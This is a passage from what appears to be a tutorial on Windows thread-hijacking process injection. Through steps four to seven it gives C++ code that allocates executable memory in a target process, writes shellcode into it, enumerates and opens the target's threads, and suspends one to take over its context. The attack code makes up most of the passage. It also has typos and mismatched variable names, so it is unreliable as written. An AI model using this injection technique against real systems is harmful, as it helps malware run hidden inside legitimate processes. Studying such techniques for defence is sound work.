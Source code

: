 ```cpp
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```
On step four, we need to begin the process of hijacking the process thread by identifying the thread ID. To identify the thread ID we need to use a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Thread32First()` and `Thread32Next()`. These API calls will collectively loop through a snapshot of a process and extend capabilities to enumerate process information.
```cpp
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {
```
At step five, we have gathered all the require information in the structure pointer and can open the target thread. To pen the thread we will use `OpenThread` with the `THREADENTRY32` structure pointer
```cpp
	if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}
	}
```
At step six, we must suspend the opened target thread. To suspend the thread we can use `SuspendThread`
```cpp
SuspendThread(hThread);
```
Step seven, We need to obtain the thread context to use in the upcoming API calls. This can be done using `GetThreadContext` to store a pointer
```cpp
CONTEXT context;
```